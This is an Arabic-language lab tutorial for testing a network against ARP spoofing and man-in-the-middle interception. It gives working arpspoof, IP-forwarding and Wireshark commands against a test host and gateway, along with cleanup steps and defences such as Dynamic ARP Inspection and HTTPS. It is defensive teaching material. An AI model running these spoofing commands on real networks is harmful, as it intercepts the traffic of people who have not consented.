

# اختبار قابلية الشبكة المحلية لهجوم ARP Spoofing وMITM داخل مختبر معزول

## الهدف والنطاق

يوضح هذا الاختبار كيف يستطيع جهاز داخل نطاق البث المحلي نفسه تغيير جداول ARP مؤقتًا، بحيث تمر حركة جهاز تجريبي عبر جهاز الفاحص قبل وصولها إلى البوابة المختبرية.

الغرض دفاعي وتعليمي: فهم الخطر، إثباته ببيانات اصطناعية، ثم استعادة الشبكة وتحديد وسائل الحماية.

> [!CAUTION]
> استخدم شبكة افتراضية داخلية أو Host-only مخصصة لهذا المختبر. لا تنفذ الخطوات على شبكة المنزل أو العمل، ولا تلتقط حركة أجهزة غير مشاركة في الاختبار.

## فكرة الاختبار

يربط ARP عنوان IPv4 بعنوان MAC داخل الشبكة المحلية. لا يتحقق البروتوكول افتراضيًا من صحة كل إعلان يستقبله، ولذلك يمكن إرسال إجابات تجعل:

- الجهاز التجريبي يربط عنوان البوابة بعنوان MAC الخاص بجهاز الفاحص.
- البوابة تربط عنوان الجهاز التجريبي بعنوان MAC الخاص بجهاز الفاحص.

عند نجاح الخداع في الاتجاهين يصبح جهاز الفاحص في المنتصف، ويجب أن يعيد توجيه الحزم حتى لا ينقطع الاتصال.



## بيئة المختبر

| العنصر | القيمة في المثال |
| --- | --- |
| واجهة جهاز الفاحص | `eth0` |
| الجهاز التجريبي | `10.0.2.15` |
| البوابة المختبرية | `10.0.2.1` |
| البروتوكول | IPv4 داخل نطاق Layer 2 نفسه |
| الأدوات | `arp-scan`، `arpspoof`، Wireshark |

يجب أن تكون البوابة جهازًا افتراضيًا أو بوابة تملكها ومخصصة للاختبار. تحقق من القيم في مختبرك ولا تنسخ العناوين إذا كانت شبكتك مختلفة.

## 1. تثبيت الأدوات

على Kali Linux أو Debian:

```bash
sudo apt update
sudo apt install -y arp-scan dsniff wireshark
```

تأتي أداة `arpspoof` ضمن حزمة `dsniff`.

## 2. استكشاف الشبكة وتحديد القيم

### معرفة الواجهة والبوابة

```bash
ip route | grep default
ip -brief address
```

مثال:

```text
default via 10.0.2.1 dev eth0
```

### اكتشاف الأجهزة في النطاق المحلي

```bash
sudo arp-scan --localnet
```

حدد الجهاز التجريبي الذي تملكه وتأكد من عنوانه من شاشة ذلك الجهاز، لا بالاعتماد على اسم الشركة المصنّعة وحده.

### التأكد من أن الهدف في نطاق Layer 2 نفسه

```bash
ip route get 10.0.2.15
```

يجب أن يظهر المسار عبر الواجهة المحلية مباشرة، من دون بوابة وسيطة أخرى. قد تمنع Client Isolation أو شبكة NAT منفصلة نجاح الاختبار.

## 3. حفظ الحالة الأصلية

على جهاز الفاحص، احفظ قيمة إعادة توجيه IPv4 في نافذة Terminal ستبقى مفتوحة حتى نهاية الاختبار:

```bash
ORIGINAL_IP_FORWARD=$(sysctl -n net.ipv4.ip_forward)
printf 'Original ip_forward=%s\n' "$ORIGINAL_IP_FORWARD"
```

على الجهاز التجريبي، سجّل MAC الحقيقي للبوابة:

```bash
ip neigh show 10.0.2.1
```

وعلى جهاز الفاحص، سجّل عنوان MAC الخاص بواجهته للمقارنة:

```bash
ip link show dev eth0
```

## 4. تفعيل إعادة توجيه IPv4

نفّذ الأمر في النافذة التي تحتوي المتغير `ORIGINAL_IP_FORWARD`:

```bash
sudo sysctl -w net.ipv4.ip_forward=1
sysctl -n net.ipv4.ip_forward
```

يجب أن تكون النتيجة `1`.

إذا انقطع اتصال الجهاز التجريبي لاحقًا رغم نجاح ARP، افحص سياسة التحويل في الجدار الناري:

```bash
sudo nft list ruleset
sudo iptables -S FORWARD 2>/dev/null
```

لا تغيّر قواعد جدار ناري لا تفهمها؛ استخدم جهاز فاحص مختبريًا بإعدادات معروفة.

## 5. بدء ARP Spoofing في الاتجاهين

افتح نافذتي Terminal إضافيتين على جهاز الفاحص.

### النافذة الأولى: محاكاة البوابة أمام الجهاز التجريبي

```bash
sudo arpspoof -i eth0 -t 10.0.2.15 10.0.2.1
```

### النافذة الثانية: محاكاة الجهاز التجريبي أمام البوابة

```bash
sudo arpspoof -i eth0 -t 10.0.2.1 10.0.2.15
```

معنى الخيارات:

- `-i eth0`: استخدام واجهة المختبر.
- `-t`: تحديد الجهاز الذي يستقبل إعلان ARP.
- العنوان الأخير: عنوان الجهاز الذي يدّعي الفاحص امتلاك MAC الخاص به.

استبدل الواجهة والعناوين بقيم مختبرك.

## 6. التحقق من نجاح التغيير

على الجهاز التجريبي:

```bash
ip neigh show 10.0.2.1
```

معيار النجاح الأول هو ظهور MAC جهاز الفاحص مقابل عنوان البوابة، بدل MAC الحقيقي الذي سجلته قبل البدء.

تحقق كذلك من استمرار الاتصال بالبوابة:

```bash
ping -c 4 10.0.2.1
```

إذا تغير MAC لكن الاتصال انقطع، فتحقق من `ip_forward`، ومن تشغيل عمليتي `arpspoof`، ثم من سياسة `FORWARD`.

## 7. إنشاء حركة HTTP تجريبية

استخدم خدمة HTTP داخل المختبر وبيانات اصطناعية فقط. مثال: على البوابة المختبرية أو خادم تجريبي يملك العنوان `10.0.2.1`:

```bash
mkdir -p /tmp/mitm-http-lab
printf '<h1>Authorized MITM lab</h1>\n' > /tmp/mitm-http-lab/index.html
python3 -m http.server 8080 --bind 10.0.2.1 --directory /tmp/mitm-http-lab
```

ومن الجهاز التجريبي:

```bash
curl 'http://10.0.2.1:8080/?sample=authorized-lab'
```

لا تستخدم حسابًا حقيقيًا ولا ترسل كلمة مرور، حتى لو كانت الخدمة غير مشفرة عمدًا.

## 8. تحليل الحركة باستخدام Wireshark

1. افتح Wireshark على جهاز الفاحص.
2. اختر واجهة المختبر، مثل `eth0`.
3. ابدأ الالتقاط لفترة قصيرة.
4. نفّذ طلب HTTP التجريبي من الجهاز الهدف.
5. استخدم مرشح العرض:

```text
arp or (http and ip.addr == 10.0.2.15)
```

النتيجة المتوقعة:

- ظهور إعلانات ARP الخاصة بالاختبار.
- ظهور طلب HTTP التجريبي لأن HTTP غير مشفر.
- عدم ظهور محتوى HTTPS المشفر بالطريقة نفسها.

أوقف الالتقاط بعد تسجيل الدليل المطلوب، ولا ترفع ملف الالتقاط إلى مستودع عام.

## 9. إيقاف الاختبار واستعادة الحالة

### إيقاف الخداع

اضغط `Ctrl+C` في نافذتي `arpspoof`.

### استعادة إعداد إعادة التوجيه

في النافذة التي حفظت المتغير الأصلي:

```bash
sudo sysctl -w net.ipv4.ip_forward="$ORIGINAL_IP_FORWARD"
sysctl -n net.ipv4.ip_forward
```

يجب أن تطابق النتيجة القيمة المسجلة قبل الاختبار.

### إيقاف خدمة HTTP وحذف مخرجاتها

أوقف `python3 -m http.server` بالضغط على `Ctrl+C`، ثم احذف المجلد التجريبي:

```bash
rm -r /tmp/mitm-http-lab
```

### التحقق من استعادة ARP

- انتظر تحديث ذاكرة ARP في الجهاز التجريبي والبوابة.
- تحقق من عودة MAC الحقيقي باستخدام `ip neigh`.
- عند الحاجة، امسح إدخال البوابة من الجهاز التجريبي داخل المختبر فقط:

```bash
sudo ip neigh flush to 10.0.2.1
```

- أعد محاولة الاتصال وتأكد من رجوع المسار الطبيعي.
- احذف ملفات الالتقاط غير المطلوبة.

## معايير النجاح

يعد الاختبار ناجحًا عند تحقق الشروط الآتية:

1. تغير MAC المرتبط بالبوابة على الجهاز التجريبي إلى MAC جهاز الفاحص.
2. استمرار الاتصال أثناء تفعيل إعادة التوجيه.
3. ظهور طلب HTTP الاصطناعي على جهاز الفاحص.
4. عودة MAC وإعداد `ip_forward` إلى حالتهما الأصلية بعد الإيقاف.

## وسائل الحماية والكشف

- استخدام HTTPS والتحقق من الشهادات وعدم تجاوز تحذيرات المتصفح.
- عزل أجهزة الضيوف والعملاء غير الموثوقين في VLAN منفصلة.
- تفعيل Client Isolation في شبكات Wi-Fi المناسبة.
- استخدام DHCP Snooping وDynamic ARP Inspection على المبدلات المدارة.
- مراقبة تغير MAC المرتبط بالبوابة وإعلانات ARP غير المعتادة.
- استخدام VPN موثوق على الشبكات المحلية غير الموثوقة.
- تجنب البروتوكولات التي تنقل بيانات حساسة دون تشفير.

## حدود الاختبار

- يعمل ARP مع IPv4 داخل نطاق Layer 2 نفسه ولا يعبر الراوترات مباشرة.
- يستخدم IPv6 بروتوكول Neighbor Discovery بدل ARP وله اختبارات وضوابط مختلفة.
- قد تمنع المبدلات المدارة أو نقطة الوصول أو العزل بين العملاء نجاح الخداع.
- تعتمد نتيجة Wireshark على نوع الحركة والتشفير وسياسات النظام.

## مراجع

- [arp-scan](https://github.com/royhills/arp-scan)
- [dsniff — Kali Tools](https://www.kali.org/tools/dsniff/)
- [Wireshark User’s Guide](https://www.wireshark.org/docs/wsug_html_chunked/)
